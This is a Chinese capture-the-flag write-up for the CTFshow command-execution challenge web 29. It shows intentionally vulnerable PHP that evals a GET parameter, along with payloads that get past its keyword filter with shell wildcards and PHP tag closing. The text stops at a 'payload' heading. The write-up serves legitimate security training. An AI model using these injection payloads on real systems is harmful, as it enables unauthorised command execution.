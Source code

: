 ```yaml
---
title: CTFshow_web入门_命令执行
date: 2020-10-11 16:07:00
categories: web入门
---
```




 CTFshow_web入门_命令执行



![](http://img.npfs06.top/20210225161030.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



<a href='http://npfs06.top/2021/02/26/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%BB%95%E8%BF%87%E5%B0%8F%E6%8A%80%E5%B7%A7/' target='_blank'>命令执行小技巧</a>  可以先看下这篇文章，方便接下来的做题


## web 29

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

解法一：
由于过滤了flag，可以使用通配符进行绕过
在linux系统中 有一些通配符

*	匹配任何字符串／文本，包括空字符串；*代表任意字符（0个或多个） ls file *
    ?	匹配任何一个字符（不在括号内时）?代表任意1个字符 ls file 0
    [abcd]	匹配abcd中任何一个字符
    [a-z]	表示范围a到z，表示范围的意思 []匹配中括号中任意一个字符 ls file 0

PAYLOAD:c=system('cat f*');



解法二：
![](http://img.npfs06.top/20210225161145.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

了解 eval函数之后

传入
c=echo "npfs";?>ctf <?php system('ls');
可以看到有 flag.php文件,之后采用include进行包含读取
payload：
